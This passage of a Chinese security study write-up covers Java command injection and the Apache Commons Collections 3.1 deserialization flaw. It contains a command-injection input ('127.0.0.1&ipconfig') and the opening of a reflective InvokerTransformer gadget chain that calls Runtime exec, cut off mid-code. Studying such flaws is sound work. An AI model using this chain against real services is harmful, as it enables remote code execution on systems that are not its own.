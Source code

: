 这里因为 URL 可控，因此当我们输入 127.0.0.1&ipconfig 时，拼接出来的系统命令就是 ping 127.0.0.1&ipconfig，该命令在系统终端下是能正常运行的，但是在 Java 环境下就会运行失败，这里因为 Java 在程序处理的过程中，会将 127.0.0.1&ipconfig 当做一个完整的字符串而非两条命令，因此上面的代码不存在命令注入。

# 0x02 代码注入

## 1、介绍

代码注入因为是直接注入一段代码，因此要比命令注入更加灵活，危害性也更大。

这里以 Apache Commons collections 组件为例。

Apache Commons collections 组件 3.1 版本有一段利用反射来完成特定功能的代码，控制相关参数后，就可以进行代码注入。

这里攻击者可以利用反序列化的方式控制相关参数，完成注入代码，达到执行任意代码的效果。

与命令注入相比，代码注入更具有灵活性，例如在 Apache Commons collections 反序列化漏洞中直接使用 Runtime.getRuntime().exec() 执行系统命令是无回显的，但如果通过 URLLoader 远程加载类文件以及异常处理机制就可以构造出回显的利用方式。

这里就以 Apache Commons collections 反序列化漏洞为例，体验一下代码注入，因为现阶段个人水平有限，这里还不能对 Apache Commons collections 反序列化漏洞的原理进行深入分析，等后面学习到相关内容的时候不出意外应该还会碰到这个漏洞，那个时候再好好分析分析这个漏洞。

## 2、Apache Commons collections 反序列化漏洞复现

### 环境搭建

该漏洞影响了 3.1 及以下的版本，这里以 3.1 版本为例，首先下载 commons-collections-3.1.zip 文件，下载地址：https://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.1.zip

解压 commons-collections-3.1.zip 可以得到 commons-collections-3.1.jar 文件，接下来打开 intelliJ IDEA，创建一个普通的 Java 项目，然后选择「文件 --> 项目结构 --> 库 --> + --> Java」，添加 commons-collections-3.1.jar 包，我使用的 jdk 版本为 1.8.0_191

接下来在「src --> com --> commons」目录下创建 ApacheCommonsCollectionsDemo.java 文件（右击 com.commons 软件包选择：新建 --> Java 类文件）

### 无回显利用

在 ApacheCommonsCollectionsDemo.java 文件下写入以下代码

```java
package com.commons;

import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

public class ApacheCommonsCollectionsDemo {
    public static void main(String[] args) {

        //((Runtime) Runtime.class.getMethod("getRuntime").invoke()).exec("calc")
        //构造恶意的chain
        Transformer[] transformers = new Transformer[] {
                //通过内置的ConstantTransformer来获取Runtime类
                new ConstantTransformer(Runtime.class),
                //通过InvokerTransformer来反射调用getMethod方法，参数是getRuntime，其后类似
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null,new Object[0]}),
```